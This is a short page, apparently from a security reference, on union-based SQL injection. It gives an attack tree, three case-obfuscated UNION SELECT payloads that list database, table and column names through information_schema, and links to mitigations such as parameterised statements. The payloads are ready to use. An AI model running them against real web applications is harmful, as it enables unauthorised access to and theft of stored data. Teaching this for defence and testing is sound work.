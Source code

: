 # Extracting data from the database

## Attack tree

```text
1 SQL injection to extract data from a database
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment that will modify the WHERE clause and make it true
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Example SQL segments

Database names:
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
```

Tables of a database:
```text

-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
```

Column names (with for example `table_name=accounts` or `table_name=users`, depending on tables found):
```text
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.

## Cheatsheets
* [Detect number of columns](cheatsheets:docs/databases/number-of-columns)
* [Union SQLi queries](cheatsheets:docs/databases/union-select)

## Mitigations
* [Parameterised statements](app-mitigations:docs/databases/parameterisation)
* [Input validation](app-mitigations:docs/databases/input)